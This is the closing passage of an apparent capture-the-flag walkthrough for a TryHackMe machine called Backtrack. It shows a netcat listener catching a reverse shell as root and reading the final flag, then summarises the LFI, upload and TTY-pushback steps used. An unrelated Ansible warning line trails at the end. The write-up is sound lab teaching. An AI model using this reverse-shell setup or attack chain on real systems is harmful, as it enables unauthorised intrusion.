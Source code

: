 With this, we can start our listener on our attack host and wait for the connection.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

After a while, we will receive a shell as root and we can use this to read the final flag. 
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.242.37] 52046
root@Backtrack:~# ls
flag3.txt
manage.py
snap
```

## Conclusion

Congratulations! In this walkthrough, you have exploited an LFI vulnerability to read the credentials of the Tomcat user that you use to obtain a shell on the target. Finally, you exploited a file upload vulnerability to move laterally and exploited the TTY Puchback vulnerability to obtain root on the target. This machine was designed to show how inconsistent input validation when accepting uploads, poor patching practices, and wrong usage of system commands could seriously impact an organisation's security posture. Thanks for following up on this walkthrough.


[WARNING]: provided hosts list is empty, only localhost is available. Note that